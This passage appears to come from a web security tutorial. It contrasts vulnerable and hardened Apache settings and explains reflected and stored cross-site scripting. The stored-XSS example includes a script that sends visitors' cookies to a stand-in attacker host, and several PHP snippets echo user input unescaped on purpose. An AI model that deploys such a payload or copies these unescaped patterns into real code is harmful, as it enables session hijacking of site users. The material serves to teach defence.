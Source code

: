 **2. Unnecessary Services and Features**
```apache
# Apache misconfiguration
# Exposing server information
ServerTokens Full
ServerSignature On

# Secure configuration
ServerTokens Prod
ServerSignature Off

# Disable unnecessary modules
LoadModule status_module modules/mod_status.so  # Remove if not needed
```

**3. Directory Listing**
```apache
# Vulnerable configuration
<Directory "/var/www/html">
    Options Indexes FollowSymLinks
    AllowOverride None
    Require all granted
</Directory>

# Secure configuration
<Directory "/var/www/html">
    Options -Indexes FollowSymLinks
    AllowOverride None
    Require all granted
</Directory>
```

#### A07: Cross-Site Scripting (XSS)

**XSS Attack Types:**

**1. Reflected XSS**
```html
<!-- Vulnerable page -->
<p>Search results for: <?php echo $_GET['query']; ?></p>

<!-- Malicious URL -->
http://example.com/search.php?query=<script>alert('XSS')</script>

<!-- Resulting page -->
<p>Search results for: <script>alert('XSS')</script></p>
```

**2. Stored XSS**
```html
<!-- Vulnerable comment system -->
<div class="comment">
    <p><?php echo $comment['content']; ?></p>
</div>

<!-- Malicious comment stored in database -->
<script>
document.location='http://attacker.com/steal.php?cookie='+document.cookie;
</script>
```
